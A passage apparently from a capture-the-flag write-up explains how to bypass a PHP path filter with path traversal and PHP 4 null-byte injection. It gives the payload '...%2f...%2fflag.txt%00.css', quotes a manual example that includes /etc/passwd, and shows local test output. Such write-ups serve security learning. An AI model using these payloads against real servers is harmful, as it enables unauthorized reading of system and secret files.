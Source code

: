 ```php
        after regex:   ../../flag
*/

 ```

## it works!

## Second Filter
Ok so, now we have to change our file extension to .css if we want to pass this filter... or we have to?<br /><br />
We get a little hint in the description: **_P.s. PHP version 4_**... PHP 4 has a huge hole in it, the **Null Byte Injection**
<br /><br />
Here's an example:

 ```php

<?php
    $file = $_GET['file']; // "../../etc/passwd%00"
    if (file_exists('/home/wwwrun/'.$file.'.php')) {
        // file_exists will return true as the file /home/wwwrun/../../etc/passwd exists
        include '/home/wwwrun/'.$file.'.php';
        // the file /etc/passwd will be included
    }
?>
```
You can find this example and why it works [here](https://www.php.net/manual/en/security.filesystem.nullbytes.php)<br /><br />

Now Let's try a payload in our local test environment:

```php

    $path = $_GET["tema"];
    echo('payload:  '.$path);

    if (preg_match("/..\//", $path)) { 
        $path = str_replace('../', './' , $path);
        $error = false;
        
        echo("after regex:  " . $path);

        $arr = explode(".", $path);
        $estensione = $arr[count($arr)-1];

        if($estensione != "css"){
            $error = true;
            $path = substr($path, 0, -3) . "css";
        }
    }
}

$css = "static/css/" . $path;
echo('final path:  ' . $css);

/*

    Input:
        ...%2f...%2fflag.txt%00.css
    Output:
        payload: .../.../flag
        after regex:   ../../flag
        final path:  static/css/../../flag.txt.css 
*/
```